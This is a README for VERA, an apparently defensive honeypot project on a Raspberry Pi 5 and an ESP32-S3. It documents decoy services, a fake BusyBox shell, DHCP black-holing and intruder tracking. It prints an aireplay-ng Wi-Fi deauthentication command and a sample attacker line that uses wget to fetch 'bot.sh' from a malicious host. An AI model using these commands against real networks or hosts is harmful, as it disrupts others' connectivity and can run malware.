

# VERA — Virtualized Environment & Reconnaissance Decoy Architecture

### Advanced Physical Hardware & Intelligent Software Intrusion Defense System

[](#hardware-editions)
[](#device-2-waveshare-esp32-s3-touch-lcd-7b-passive-tracker--soc-display)
[](#device-1-raspberry-pi-5-prototype-active-defense--enforcement)
[](#electron-gui-dashboard)
[](LICENSE)

---

## Table of Contents

1. [Project Overview](#project-overview)
2. [Problem Statement](#problem-statement)
3. [System Architecture &amp; Working Topology](#system-architecture--working-topology)
4. [Hardware Editions Overview](#hardware-editions-overview)
5. [Device 1: Raspberry Pi 5 Prototype (Active Defense &amp; Enforcement)](#device-1-raspberry-pi-5-prototype-active-defense--enforcement)
   - [Core Architecture &amp; Capabilities](#core-architecture--capabilities)
   - [Backend Sniffer &amp; Automated Enforcement (`server.py`)](#backend-sniffer--automated-enforcement)
   - [Intruder Kick-out Mechanisms (DHCP Black-hole &amp; Wi-Fi Deauth)](#intruder-kick-out-mechanisms)
   - [Electron + React Touch GUI](#electron--react-touch-gui)
   - [3.5&#34; TFT Kali Linux Display Fix (Step-by-Step)](#35-tft-kali-linux-display-driver-fix)
   - [Installation &amp; Operation Guide](#raspberry-pi-installation--run-guide)
6. [Device 2: Waveshare ESP32-S3-Touch-LCD-7B (Passive Tracker &amp; SOC Display)](#device-2-waveshare-esp32-s3-touch-lcd-7b-passive-tracker--soc-display)
   - [Hardware Profile &amp; Specifications](#hardware-profile--specifications)
   - [Five Decoy Attack Surfaces](#five-decoy-attack-surfaces)
   - [Interactive Fake BusyBox Shell](#interactive-fake-busybox-shell)
   - [Intruder Tracking, ARP MAC Resolution &amp; Port Scan Detection](#intruder-tracking--arp-mac-resolution)
   - [7-inch LVGL v8 Touch Cyber SOC Dashboard](#7-inch-lvgl-v8-touch-cyber-soc-dashboard)
   - [Mirrored Web Admin Portal (:8080) &amp; REST API](#mirrored-web-admin-portal-8080--rest-api)
   - [Installation &amp; Flashing Guide](#esp32-s3-flashing--configuration-guide)
7. [Repository File Map](#repository-file-map)
8. [Defensive &amp; Research Disclaimer](#defensive--research-disclaimer)

---

## Project Overview

**VERA** is an advanced defense system that combines specialized physical hardware with intelligent software to actively protect your network. Rather than just building a taller digital wall, Vera is designed to be plugged into open, private, or enterprise environments to deploy highly realistic digital decoys. These decoys act as irresistible bait, drawing attackers away from genuine assets.

Once a threat interacts with the system, Vera quietly isolates the unauthorized activity and alerts the security team. This allows defenders to safely analyze the intrusion and automatically strengthen the main network, neutralizing the attack before any actual data is ever exposed.

VERA is engineered in two modular hardware form factors:

1. **Active Defense Sentinel (Raspberry Pi 5 Prototype)**: Full honeypot monitoring node equipped with a 3.5-inch TFT touchscreen, Scapy network packet sniffer, automated Microsoft Graph email notifications, ISC DHCP subnet black-holing, and automated 802.11 Wi-Fi deauthentication to forcefully kick intruders out of the physical and logical network.
2. **Autonomous Decoy & SOC Station (Waveshare ESP32-S3-Touch-LCD-7B)**: Standalone 7.0-inch capacitive touch cyber defense dashboard powered by dual-core ESP32-S3 running LVGL v8, exposing 5 distinct IoT decoy surfaces (ICMP, Telnet, SSH, FTP, HTTP NAS portal), interactive fake BusyBox shell, lwIP ARP MAC resolution, credential/payload interception ("Loot"), and a mirrored HTTP admin portal.

---

## Problem Statement

Cyber attacks are happening constantly, and hackers are always finding new ways to sneak past traditional firewalls and antivirus software. Whether it is an open local network (like public Wi-Fi), a secure private home network, or a massive enterprise network for a large company, intruders are constantly trying to get inside to steal sensitive data or shut down critical systems.

The hardest part of cybersecurity across all these environments is **catching these intruders early enough, before they reach the real, valuable information**. Once perimeter boundaries are crossed, lateral reconnaissance often goes undetected until irreversible compromise occurs. VERA addresses this fundamental challenge by creating dynamic, synthetic targets directly inside internal subnets, turning attackers' reconnaissance techniques into their point of immediate detection and neutralization.

---

## System Architecture & Working Topology

VERA operates seamlessly across open, SOHO, and corporate enterprise subnets. Both devices can be deployed individually or cooperatively as a multi-tier defense grid:



### Attack Lifecycle & Mitigation Flow

1. **Lure & Interception**: An attacker joins or compromises the perimeter and initiates network discovery (ARP sweeps, ICMP pings, port scans for open SSH, Telnet, HTTP, FTP).
2. **Bait Attraction**: The ESP32 node advertises appetizing enterprise services (Synology NAS web portal, DVR camera Telnet, Linux SSH) while the Raspberry Pi listens promiscuously on `eth0` and `wlan1`.
3. **Identification & Forensics**:
   - The ESP32 records the intruder's IP, queries the lwIP ARP cache for their physical MAC address, flags multi-service port scans, and collects submitted login credentials and executed shell commands.
   - The Raspberry Pi sniffs the probe packets, extracts the attacker's IP and MAC via `arp -an`, and dispatches an automated notification email via Microsoft Graph API.
4. **Active Neutralization (Raspberry Pi)**:
   - **Autoblock Mode ON**: Instantly appends the attacker's MAC address to `/etc/dhcp/dhcpd.conf` under the `black-hole` class, reloads `isc-dhcp-server`, and transmits targeted 802.11 deauthentication packets via `aireplay-ng` over monitor mode, cutting off their Wi-Fi association and barring them from obtaining an IP.
   - **Autoblock Mode OFF**: Triggers an alert in the Electron touch interface, allowing the on-site operator to inspect the intruder's IP/MAC and choose to **[Remove]** (kick) or **[Allow]**.

---

## Hardware Editions Overview

| Capability / Feature             | Raspberry Pi 5 Prototype                               | Waveshare ESP32-S3-Touch-LCD-7B                                    |
| :------------------------------- | :----------------------------------------------------- | :----------------------------------------------------------------- |
| **Primary Role**           | Active Defense, Logging & Network Kick-out             | Passive Decoy, Credential Trapping & Visual SOC                    |
| **Hardware Core**          | Broadcom BCM2712 Quad-Core ARM Cortex-A76              | ESP32-S3 Dual-Core Xtensa LX7 (16MB Flash, 8MB PSRAM)              |
| **Display & Touch**        | 3.5-inch SPI/GPIO TFT (480x320) resistive touch        | 7.0-inch RGB parallel LCD (1024x600) GT911 capacitive touch        |
| **GUI Framework**          | Electron + React 18 + Vite + Bootstrap                 | LVGL v8.3 C++ Graphics Engine (Dual Dark/Light Theme)              |
| **Network Interfaces**     | Dual-interface (`eth0` Ethernet + `wlan1` Wi-Fi)   | 2.4 GHz 802.11 b/g/n Wi-Fi (Internal PCB Antenna)                  |
| **Decoy Surfaces**         | Promiscuous Sniffer (SSH Port 22 & ICMP Ping)          | 5 Decoys: ICMP Echo, Telnet (23), SSH (22), FTP (21), HTTP (80)    |
| **Fake Interactive Shell** | N/A (Direct packet filter)                             | Fake BusyBox v1.20.2`ash` shell capturing malware downloaders    |
| **Intrusion Action**       | **Active**: DHCP Black-hole + 802.11 Deauth Kick | **Passive**: Credential/Payload harvesting & ARP MAC logging |
| **Email Alerts**           | Automated via Microsoft Graph API & MSAL               | N/A (On-device SOC + Mirrored HTTP Portal)                         |
| **Remote Web Portal**      | REST API on port 5000                                  | Mirrored Web SOC & JSON REST API on port 8080                      |
| **Power Telemetry**        | Standard 5V/5A USB-C PD                                | CS8501 charging IC + CH32V003 ADC Battery % / Voltage              |

---

## Device 1: Raspberry Pi 5 Prototype (Active Defense & Enforcement)

### Core Architecture & Capabilities

The Raspberry Pi 5 version serves as the active defensive backbone. Built on Kali Linux (ARM64), it pairs a low-overhead Python/Scapy backend with a high-performance Electron/React touchscreen dashboard.

```
backend/
├── server.py             # Flask API, Scapy sniffer, Graph API mailer, DHCP/Deauth controller
├── setup.py              # Automated system setup (static IP, isc-dhcp-server, virtualenv)
├── run_server.sh         # Privileged launcher script
├── requirements.txt      # Python dependencies (Flask, scapy, netifaces, etc.)
├── data.json             # Configuration state (password, autoblock toggle, alert recipient)
├── blacklist.json        # Dynamic list of blocked MAC & IP entries
└── events.json / .log    # Persistent historical event stream
```

### Backend Sniffer & Automated Enforcement

- **Multi-Interface Sniffing**: Uses Scapy threads listening concurrently on `eth0` and `wlan1` with the BPF filter `"port 22 or icmp"`.
- **Self-Traffic Suppression**: Reads local interface IPs and gateway addresses via `netifaces` to automatically filter out internal appliance traffic.
- **Flood Protection & De-duplication**: Uses thread-safe memory caches (`IP_TIMEOUT = 1.5s`) to coalesce rapid packet bursts from scanning tools (like Nmap) into single actionable events.
- **Automated Email Dispatch**: Integrates Microsoft Authentication Library (`msal`) to acquire OAuth2 tokens for Microsoft Graph API (`https://graph.microsoft.com/v1.0/users/{SENDER_EMAIL}/sendMail`), instantly notifying security personnel of unauthorized MAC/IP connection attempts.

### Intruder Kick-out Mechanisms

When an intruder is flagged (or when the operator clicks **Remove**):

1. **ISC-DHCP-Server Black-holing**:
   The backend appends the attacker's hardware address to `/etc/dhcp/dhcpd.conf`:

   ```text
   class "black-hole" {
     match substring (hardware, 1, 6);
     ignore booting;
   }
   subclass "black-hole" 34:af:2c:xx:xx:xx;
   ```

   The service is restarted (`systemctl restart isc-dhcp-server`), preventing the device from receiving or renewing lease parameters on the subnet.
2. **Wi-Fi Deauthentication Attack**:
   Using a secondary wireless interface (`wlan1`), VERA identifies the connected router BSSID and operating channel via `iw dev` and `iwconfig`. It temporarily places the interface into monitor mode and launches directed 802.11 deauthentication frames:

   ```bash
   sudo aireplay-ng -0 4 -a <ROUTER_BSSID> -c <INTRUDER_MAC> <MONITOR_IFACE>
   ```

   This immediately tears down the attacker's link layer association with the access point.

### Backend REST API Specification

| Endpoint              | Method   | Payload                                         | Description                                                            |
| :-------------------- | :------- | :---------------------------------------------- | :--------------------------------------------------------------------- |
| `/get_latest_event` | `GET`  | _None_                                        | Pops and returns the oldest unhandled intrusion event from the queue.  |
| `/block_mac`        | `POST` | `{"mac_address": "...", "ip_address": "..."}` | Black-holes MAC in DHCP, restarts service, executes deauth attack.     |
| `/unblock_mac`      | `POST` | `{"mac_address": "..."}`                      | Strips MAC from`dhcpd.conf`, restarts DHCP server, clears blacklist. |
| `/get_blacklist`    | `GET`  | _None_                                        | Returns list of currently blacklisted MAC and IP addresses.            |
| `/change_autoblock` | `POST` | `{"autoblock": "ON" \| "OFF"}`                 | Toggles immediate autonomous blocking mode.                            |
| `/get_autoblock`    | `GET`  | _None_                                        | Queries the current autoblock state.                                   |
| `/verify_password`  | `POST` | `{"password": "..."}`                         | Authenticates operator before modifying sensitive settings.            |
| `/change_password`  | `POST` | `{"new_password": "..."}`                     | Updates operator security PIN.                                         |
| `/change_email`     | `POST` | `{"new_email": "..."}`                        | Sets recipient email for Microsoft Graph alerts.                       |

---

### Electron + React Touch GUI

The `electron/` application provides a sleek, touch-friendly UI for 3.5-inch to 7-inch displays:

- **Idle Screen**: Displays an animated pulsating status indicator showing `"No Alerts Detected"` or a red `"Alert Detected"` banner.
- **Incident Response Modal**: Shows the detected attacker IP and MAC with immediate options:
  - **Remove**: Sends `/block_mac` command to instantly kick the attacker off the network.
  - **Allow**: Dismisses the alert and dequeues the item.
- **Admin Configuration (PIN Protected)**:
  - Configure alert recipient email.
  - View, search, and manually unblock addresses from the **Blacklist Manager**.
  - Change administrator PIN.
  - Toggle **Autoblock Mode** (`ON` / `OFF`).

---

### 3.5" TFT Kali Linux Display Driver Fix

*(Documented from `HoneyTrap Display Problem Solution.pdf`)*

When installing Kali Linux on a Raspberry Pi 5 with standard 3.5-inch GPIO TFT displays (using the `LCD-show` or `LCD-show-kali` driver suites), the display often remains blank or freezes with visual artifacts. This occurs because the driver assumes a legacy SD card block device path (`/dev/mmcblk0p2`) rather than the Raspberry Pi 5's default root identifier (`/dev/sda2`).

#### Step-by-Step Resolution:

1. Access the Raspberry Pi 5 via SSH or an external HDMI monitor.
2. Navigate to the LCD-show-kali directory:

   ```bash
   cd ~/LCD-show-kali/usr
   ```
3. Backup the existing configuration files:

   ```bash
   sudo cp cmdline.txt cmdline.txt.bak
   sudo cp cmdline.txt-noobs cmdline.txt-noobs.bak
   sudo cp cmdline.txt-original cmdline.txt-original.bak
   ```
4. Edit each file using `sudo nano`:

   - `cmdline.txt`
   - `cmdline.txt-noobs`
   - `cmdline.txt-original`
5. Locate the root partition parameter:

   ```text
   root=/dev/mmcblk0p2
   ```

   Replace it with:

   ```text
   root=/dev/sda2
   ```

   *(Example: `setenv bootargs "root=/dev/sda2 rw rootwait console=tty1"`)*
6. Save and exit (`Ctrl+O`, `Enter`, `Ctrl+X`).
7. Execute the driver install script and reboot:

   ```bash
   cd ~/LCD-show-kali
   sudo ./LCD35-show
   sudo reboot
   ```

   After rebooting, the 3.5-inch TFT will initialize cleanly into the Kali Linux X11/desktop interface.

---

### Raspberry Pi Installation & Run Guide

#### 1. System Setup & Automated Provisioning

Run the automated setup script to configure interfaces, static IPs, and the ISC DHCP server:

```bash
cd backend
chmod +x setup.py run_server.sh
sudo python3 setup.py
```

This script:

- Provisions a dedicated Python virtual environment (`ukcs`).
- Installs all dependencies from `requirements.txt`.
- Sets a static IP (`192.168.x.99/24`) on the primary interface.
- Installs and enables `isc-dhcp-server` with dynamic leasing ranges (`.100` - `.200`).

#### 2. Configure Email & Credentials

Edit `backend/data.json`:

```json
{
  "receiver_email": "security@yourdomain.com",
  "password": "your-admin-pin",
  "autoblock": "OFF"
}
```

*(Optional: Insert your Azure AD Application Client ID, Secret, and Tenant ID in `backend/server.py` under the Microsoft Graph configuration block).*

#### 3. Start Backend Server

```bash
cd backend
./run_server.sh
```

#### 4. Build & Launch Electron Dashboard

```bash
cd electron
npm install

# Run in development mode:
npm run dev

# Build production ARM64 AppImage for Raspberry Pi:
npm run build:linux
```

---

## Device 2: Waveshare ESP32-S3-Touch-LCD-7B (Passive Tracker & SOC Display)

### Hardware Profile & Specifications

The ESP32 version of VERA is designed around the **Waveshare ESP32-S3-Touch-LCD-7B** development board, delivering a fully standalone, low-power cyber defense terminal.

```
ESP32-VERA/
└── vera_esp32_code/
    ├── vera_esp32_code.ino        # Core firmware: 5 decoys, fake shell, LVGL GUI & web portal
    ├── lv_conf.h                  # LVGL v8 configuration (16-bit color, Montserrat fonts)
    ├── rgb_lcd_port.cpp / .h      # 30MHz PCLK 1024x600 RGB parallel LCD driver
    ├── touch.cpp / .h             # Touch subsystem abstraction
    ├── gt911.cpp / .h             # Goodix GT911 capacitive touch controller
    ├── io_extension.cpp / .h      # CH32V003 MCU I2C expander & ADC battery reader
    └── esp_lv_adapter_arduino.*   # Dual-buffer DMA flush driver for LVGL
```

- **Processor**: ESP32-S3-WROOM-1-N16R8 (Xtensa 32-bit LX7 dual-core @ 240MHz, 16MB Flash, 8MB Octal PSRAM).
- **Display**: 7.0" 1024x600 RGB parallel LCD (16-bit RGB565, 30MHz dot clock).
- **Touch Screen**: GT911 5-point capacitive touch via I2C (`SDA=GPIO 8`, `SCL=GPIO 9`, `INT=GPIO 4`).
- **I/O & Battery Coprocessor**: CH32V003 RISC-V MCU via I2C (`0x24`), controlling backlight PWM (0–100%) and 10-bit ADC battery voltage monitoring.
- **Power Management**: Onboard CS8501 lithium charging IC. Accurately reports battery millivolts, discharge curve percentage, and charging state.
- **External Storage**: MicroSD slot using hardware SD_MMC 1-bit mode (`CLK=12`, `CMD=11`, `D0=13`).

---

### Five Decoy Attack Surfaces

VERA ESP32 exposes 5 distinct honeypot vectors simultaneously:

1. **ICMP Echo Decoy (Low-Level lwIP Raw Hook)**:
   - Uses `raw_new(IP_PROTO_ICMP)` directly inside lwIP to capture incoming pings from network mappers without blocking the operating system's standard TCP/IP stack.
2. **Telnet Honeypot (Port 23)**:
   - Emulates an embedded IoT camera (`DVR-CAM-04 login:`).
   - Records every username and password combination attempted.
3. **SSH Decoy (Port 22)**:
   - Emulates `SSH-2.0-OpenSSH_7.4p1 Debian-10+deb9u7`.
   - Intercepts connection attempts and extracts client software banners (e.g. `libssh`, `paramiko`, `PuTTY`).
4. **FTP Decoy (Port 21)**:
   - Emulates a standard UNIX FTP daemon (`220 DVR-CAM-04 FTP server Version 6.4 ready`).
   - Intercepts `USER` and `PASS` commands.
5. **HTTP Web Decoy (Port 80)**:
   - Serves an authentic, photorealistic **Synology DSM 6.1 NAS sign-in page**.
   - Draws in web crawlers and traps brute-force credential submission attempts.

---

### Interactive Fake BusyBox Shell

When an attacker fails 2 authentication attempts on the Telnet decoy, VERA deliberately grants them access to a fake **BusyBox v1.20.2 (ash)** shell rather than disconnecting them:

```text
BusyBox v1.20.2 built-in shell (ash)
#
```

The virtual shell realistically mimics an embedded MIPS Linux device:

- Responds to `ls`, `pwd`, `whoami`, `id`, `uname -a`, `cat /proc/cpuinfo`, `cat /proc/mounts`, `free`, and `ps`.
- **Payload & Malware Capture**: When attackers attempt to download second-stage implants (e.g. `wget http://malicious.ru/bot.sh`, `curl`, `tftp`), VERA captures the entire payload URL into its **Loot Store** and responds with `sh: write error: Permission denied`, keeping the attacker engaged while collecting threat intelligence.

---

### Intruder Tracking, ARP MAC Resolution & Port Scan Detection

- **Live ARP Cache Inspection**: When an intrusion is detected from a source IP, VERA queries the lwIP ARP table (`etharp_find_addr`) to discover the attacker's true physical MAC address—even if the attacker forged layer-3 headers.
- **Port-Scan Detection**: VERA tracks an activity bitmask per IP:

  ```
  Bit 0: Telnet | Bit 1: SSH | Bit 2: FTP | Bit 3: HTTP | Bit 4: ICMP
  ```

  If any single IP touches 3 or more services, VERA instantly flags them as a **Multi-Service Port Scanner** with elevated alert priority.

---

### 7-inch LVGL v8 Touch Cyber SOC Dashboard

The on-device UI is built using the LVGL v8 graphics library with full dual **Dark / Light Cyber SOC Theme** support:

```
┌────────────────────────────────────────────────────────────────────────┐
│  VERA DEFENSE SOC  [⚡ 100% (4.18V)]  [SD: OK]  [HEAP: 218K]   15:34:02  │
├───────────┬──────────────┬──────────────┬─────────────┬────────────────┤
│  OVERVIEW │  THREAT LOG  │   IP TABLE   │     LOOT    │    SETTINGS    │
├───────────┴──────────────┴──────────────┴─────────────┴────────────────┤
│ [TELNET: 12] [SSH: 45] [FTP: 4] [HTTP: 88] [PING: 310] [SCANS: 6]     │
│                                                                        │
│ Protocol Distribution:                                                 │
│ Telnet  [████                    ] 12%                                 │
│ SSH     [████████                ] 28%                                 │
│ HTTP    [████████████████        ] 52%                                 │
│                                                                        │
│ Live Activity Ticker:                                                  │
│ 15:33:48 - [SSH]    192.168.1.145 (4C:D5:77:xx:xx) - connect          │
│ 15:33:55 - [TELNET] 192.168.1.189 (E0:D5:5E:xx:xx) - login: root/root │
│ 15:34:01 - [SCAN]   192.168.1.189 - Multi-service probe detected!      │
└────────────────────────────────────────────────────────────────────────┘
```

1. **Overview Tab**: 10 real-time telemetry cards, dynamic attack distribution bars, and live attack stream ticker.
2. **Threat Log Tab**: Comprehensive tabular log with color-coded severity badges, timestamps, protocol types, IPs, resolved MACs, and attack details. Includes a one-touch **Alerts Only** filter.
3. **IP Table Tab**: Displays all tracked unique host IPs, resolved MAC addresses, probed service masks, and scan flags.
4. **Loot Tab**: Intercepted credentials (service, IP, username, password) and captured shell commands / payload download links.
5. **System / Settings Tab**:
   - Hardware battery telemetry (voltage, percentage, charging status).
   - Display brightness slider (PWM control via CH32V003).
   - Theme toggle (Dark Cyber SOC vs High-Visibility Light).
   - Active Wi-Fi scanner and connection manager.
   - MicroSD status and memory metrics.

---

### Mirrored Web Admin Portal (:8080) & REST API

VERA runs an embedded HTTP administration server on port `8080`:

- **Decoy Gateway**: Visiting the root URL presents a discreet Synology DSM 6.1 sign-in screen to deceive unauthorized network explorers.
- **Authorized Dashboard**: Entering the configured `ADMIN_KEY` unlocks a full-featured web-based Cyber SOC dashboard that mirrors the 7-inch LCD screen in real-time.

#### REST API Endpoints (Port 8080):

- `GET /api?key=<ADMIN_KEY>`: Returns complete system JSON metrics (attacks, battery stats, unique IPs, credentials, payloads, and logs).
- `GET /loot?key=<ADMIN_KEY>`: Returns all captured usernames, passwords, and payload strings.
- `GET /tail?key=<ADMIN_KEY>`: Returns recent raw log entries.
- `GET /raw?key=<ADMIN_KEY>`: Downloads the complete historical log as a TSV file (`vera.tsv`).
- `GET /clear?key=<ADMIN_KEY>`: Resets all active counters and clears in-memory tables.
- `GET /wifi/scan?key=<ADMIN_KEY>`: Scans for available 2.4 GHz Wi-Fi access points.
- `POST /wifi/connect?key=<ADMIN_KEY>`: Switches VERA to a new Wi-Fi network without recompiling firmware.

---

### ESP32-S3 Flashing & Configuration Guide

#### 1. Hardware & Environment Requirements

- **Hardware**: Waveshare ESP32-S3-Touch-LCD-7B (16MB Flash, 8MB Octal PSRAM).
- **Toolchain**: Arduino IDE 2.x or VS Code + ESP-IDF / PlatformIO.
- **ESP32 Board Package**: `esp32` by Espressif Systems (v2.0.x or v3.x).
- **Libraries**: `lvgl` (version 8.3.x).

#### 2. Arduino IDE Board Settings

Select **Tools** from the Arduino IDE menu:

- **Board**: `"ESP32S3 Dev Module"`
- **Flash Size**: `"16MB (128Mb)"`
- **Partition Scheme**: `"16M Flash (3MB APP/9.9MB FATFS)"` or `"Large SPIFFS"`
- **PSRAM**: `"OPI PSRAM"` *(Crucial: 8MB Octal PSRAM is required for the 1024x600 dual framebuffer)*
- **Core Debug Level**: `"None"` (or `"Info"` for debugging)

#### 3. Configuration

Open `ESP32-VERA/vera_esp32_code/vera_esp32_code.ino`:

```cpp
/* Wi-Fi Configuration */
static const char *WIFI_SSID = "YOUR_WIFI_NAME";
static const char *WIFI_PASS = "YOUR_WIFI_PASSWORD";

/* Admin Web Portal Secret */
#define ADMIN_KEY "your-secure-admin-key"

/* Storage Mode */
#define USE_SD_CARD false // Set to true if a FAT32 MicroSD is inserted
```

#### 4. Compile & Upload

Connect the board via the **USB** port (labeled *USB*, not *UART*), select the corresponding COM port, and click **Upload**. Upon booting, VERA will initialize the LCD, calibrate the touch controller, connect to Wi-Fi, and launch all 5 decoy services.

---

## Repository File Map

```
VERA/
├── README.md                              # Centralized documentation (this file)
├── LICENSE                                # Proprietary & Patent-Pending IP License
├── HoneyTrap Display Problem Solution.pdf # Technical solution for RPi 5 3.5" TFT display fix
│
├── backend/                               # Raspberry Pi Active Defense Backend
│   ├── server.py                          # Flask REST API, Scapy sniffer, DHCP & deauth engine
│   ├── setup.py                           # Automated network & package installer script
│   ├── run_server.sh                      # Sudo environment launch script
│   ├── requirements.txt                   # Python dependencies (Flask, scapy, netifaces)
│   ├── data.json                          # App settings (password, autoblock, email)
│   ├── blacklist.json                     # Dynamic MAC blacklist file
│   └── events.json / .log                 # Recorded intrusion event journals
│
├── electron/                              # Raspberry Pi Electron Touch Dashboard
│   ├── package.json                       # Node dependencies and build scripts
│   ├── electron.vite.config.mjs           # Electron-Vite configuration
│   └── src/
│       ├── main/index.js                  # Electron main process
│       └── renderer/src/
│           ├── App.jsx                    # Core UI component (state, polling, modals)
│           ├── components/Idle.jsx        # Idle & active alert touch prompt
│           └── components/AlertComponent.jsx
│
└── ESP32-VERA/                            # Waveshare ESP32-S3-Touch-LCD-7B Decoy Station
    └── vera_esp32_code/
        ├── vera_esp32_code.ino            # Main firmware (5 decoys, shell, LVGL GUI & web)
        ├── lv_conf.h                      # LVGL v8 configuration file
        ├── rgb_lcd_port.cpp / .h          # 1024x600 RGB parallel LCD hardware driver
        ├── gt911.cpp / .h                 # GT911 capacitive touch screen driver
        ├── io_extension.cpp / .h          # CH32V003 coprocessor PWM backlight & battery ADC
        └── esp_lv_adapter_arduino.cpp / .h# LVGL frame buffer & DMA port
```

---

## Defensive & Research Disclaimer

VERA is designed strictly for **authorized defensive cybersecurity, academic research, and authorized enterprise penetration testing**.

- Deploying deceptive decoys or honeypots on networks without explicit permission from the network owner is strictly prohibited.
- The 802.11 Wi-Fi deauthentication feature of the Raspberry Pi version must only be operated on private, self-owned wireless networks to neutralize verified intrusions.
- Always adhere to local telecommunications regulations and computer security laws.

---

## Intellectual Property & License

**PROPRIETARY & CONFIDENTIAL — PATENT PENDING**

Copyright © 2024–2026 Noor-E Sadman. All Rights Reserved.

The architectural designs, detection algorithms, hardware topologies, firmware, and software implementations embodied in this repository are the exclusive intellectual property of the author. Patent applications covering these inventions and methods are pending and/or in preparation.

- **No commercial license, patent grant, or manufacturing right is conferred without prior written permission.**
- Viewing is permitted strictly for private evaluation, academic review, or security auditing.
- Unauthorized reproduction, distribution, sublicensing, reverse engineering, decompilation, or commercial exploitation is strictly prohibited.

Refer to the full [LICENSE](LICENSE) file for complete legal terms and conditions.
